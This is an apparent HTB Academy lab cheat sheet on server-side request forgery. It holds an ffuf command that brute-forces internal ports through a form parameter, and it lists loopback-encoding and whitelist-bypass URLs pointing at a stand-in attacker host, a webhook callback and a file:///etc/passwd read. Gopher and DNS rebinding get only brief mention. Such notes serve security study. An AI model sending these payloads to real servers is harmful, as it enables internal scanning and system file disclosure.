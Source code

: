 Server-side Request Forgery, triggering a request made from the server.
- [ ] URL in parameters
- [ ] Host header routing based SSRF
- [ ] Check for open redirection

(Ffuf) Brute-forcing ports
```bash
ffuf -w ports.txt:FUZZ -u http://10.129.15.17/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-01-01" -fr 'Something went wrong!'
```
Detecting SSRF
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
```bash
https://webhook.site/401e2e49-6a1c-4e43-a888-f11830e699d4 # webhook
http://127.0.0.1/
http://localhost/
http://2130706433/ # represents 127.0.0.1
http://017700000001/
http://[::1]/
http://127.1/
# Whitelist bypass (if http://attacker.htb must be present)
http://attacker.htb/
http://academy.htb.attacker.htb/
http://academy.htb@attacker.htb/
http://attacker.htb/callback?a=http://academy.htb
http://attacker.htb/callback#http://academy.htb
```
Exploiting SSRF
```bash
file:///etc/passwd # php
gopher
```
(Gopherus) Constructing gopher
```bash
```

### DNS Rebinding Bypass SSRF Protections
https://lock.cmpxchg8b.com/rebinder.html
- Set DNS through Burp, host name similar to victim.
- Rebinds to 127.0.0.1 addresses to do SSRF through DNS Rebinding.